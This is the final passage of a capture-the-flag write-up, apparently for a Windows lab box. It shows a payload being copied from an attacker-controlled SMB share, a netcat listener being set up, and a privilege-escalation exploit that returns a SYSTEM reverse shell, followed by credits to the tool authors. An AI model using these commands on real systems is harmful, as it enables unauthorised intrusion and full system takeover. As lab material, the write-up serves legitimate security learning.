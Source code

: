C:\Users\Dark\Downloads>copy \\10.4.18.56\PAPERBOY\Win64.exe
copy \\10.4.18.56\PAPERBOY\Win64.exe
        1 file(s) copied.
```

#### Getting Root

With the files transferred across all that there's left to do is start a new listener on a different port from the last one we used:

```nc -lvnp 421```

And then execute the Win64.exe binary and have it execute our reverse shell in turn:
```
C:\Users\Dark\Downloads>Win64.exe paperboy.exe
Win64.exe paperboy.exe
```

If we look back at our listener now we will see that we've receieved a shell and are now **root** aka NT AUTHORITY\SYSTEM!:

```
listening on [any] 421 ...
connect to [10.4.18.56] from (UNKNOWN) [10.10.82.92] 49198
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Dark\Downloads>whoami
whoami
nt authority\system
```

## Conclusion & Credits
This was a fun box to learn how to exploit manually and is a great test case for learning about a very simple buffer overflow.

Thanks to the following for their work in creating some of the tools used and guiding me on their usage:
* HackerSploit for their Ice Manual Exploitation video - <https://www.youtube.com/watch?v=eIy69zUfbgI>
* Gitmaninc for the Win64.exe exploit code - <https://github.com/Gitmaninc>
* Luigi Auriemma for the original exploit - <http://aluigi.altervista.org/adv/iceexec-adv.txt>
* SecWiki for their Windows Kernel Exploits - <https://github.com/SecWiki/>
* SecureAuthCorp for Impacket - <https://github.com/SecureAuthCorp/>
* AonCyberLabs for the Windows Exploit Suggester - <https://github.com/AonCyberLabs/Windows-Exploit-Suggester>
  
  


